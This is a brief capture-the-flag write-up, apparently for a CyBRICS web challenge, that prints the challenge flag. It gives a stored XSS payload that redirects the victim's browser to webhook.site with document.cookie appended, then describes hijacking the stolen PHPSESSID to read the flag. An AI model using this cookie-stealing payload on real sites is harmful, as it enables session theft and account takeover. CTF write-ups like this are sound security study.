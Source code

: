 
1. Giving random long credits, logs us in.

2. Payload = `<script>document.location='http://webhook.site/#!/1337-whatever/c='+document.cookie</script>`

3. Get the `PHPSESSID` we get in our webhook

4. Open new incoginto window, swap the cookie with this one, click on "show flag" and done!

Flag: `cybrics{k4Ch3_C4N_83_vuln3R48l3}`